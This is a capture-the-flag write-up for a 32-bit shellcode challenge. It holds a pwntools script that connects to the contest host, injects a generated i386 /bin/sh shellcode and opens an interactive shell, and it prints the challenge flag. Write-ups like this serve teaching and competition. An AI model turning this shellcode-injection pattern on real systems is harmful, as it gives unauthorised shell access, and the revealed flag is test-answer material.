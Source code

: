# I got 32 shells
![image](https://user-images.githubusercontent.com/34862954/164886114-9ef66d3d-e92d-412e-9d3e-e198e9b5d6e3.png)

# Approach
In this ques, the we have to inject a shellcode into the prompt and it will execute the shellcode.\
The ELF file provided was 32 bit.

Let's use pwntools for this as it makes it very easier.

```python
from pwn import *


conn = remote('wannahack.copsiitbhu.co.in',2430)
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()

payload = (shellcraft.i386.sh())
print("payload: ", payload)
payload = asm(payload, arch='i386')
conn.send(payload)
print(conn.recvline())
print(conn.recvline())
conn.interactive()
```

`shellcraft.i386.sh()` will provide the 32-bit assembly instructions to enter into the shell.

`asm(payload, arch='i386')` will assemble the assembly code into bytes.

Executing this will spawn a shell where we can do the following:

![image](https://user-images.githubusercontent.com/34862954/164888296-0dba1733-3b8d-4c94-9b9b-a860d350a28a.png)

In this way, you get the flag.<br>
Flag: `wannahack{5h311c0d3_0n_32b1t_1s_50_01d_:(}`<br>
Enjoi!!
